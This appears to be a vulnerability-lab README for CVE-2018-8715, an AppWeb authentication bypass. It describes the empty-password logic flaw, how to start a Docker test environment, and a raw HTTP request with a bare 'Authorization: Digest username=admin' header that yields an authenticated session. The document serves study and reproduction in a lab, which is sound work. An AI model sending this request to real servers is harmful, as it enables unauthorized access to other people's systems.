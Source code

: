 # AppWeb Authentication Bypass（CVE-2018-8715）

[中文版本（Chinese version）](README.zh-cn.md)

AppWeb is an embedded web server developed by Embedthis Software LLC. Developed in C/C++, can be run on almost  all  popular OS.

AppWeb can be configured to use authentication,including the following three ways

- ​	Basic   Authentication 
- ​	Digest Authentication ，store session with cookie，instead of Authorization header
- ​	Form   Authentication 

versions < 7.0.3  ，there is a vulnerability for both digest and form authentication ；If the user gave `null` for  the password( leave the password field to empty), AppWeb will directly authenticate successfully due to a logical error and return session.



Reference:

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610



## Vulnerability environment

start the vulnerability environment

```
docker-compose up -d
```

Access `http://your-ip:8080`，then you will see the username and password field。

## Exploit

You need  an existing username，there is an `admin` for this  environment.

Generate a http packet with header  `Authorization: Digest username=admin`，and send  it to the server:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see,in the http response, because of the empty password field，the server made an error with a http status-code 200，including a session as well.

![](1.png)

Use the session above  in the browser，then you can access the page which is originally need to be authenticated：

![](2.png)
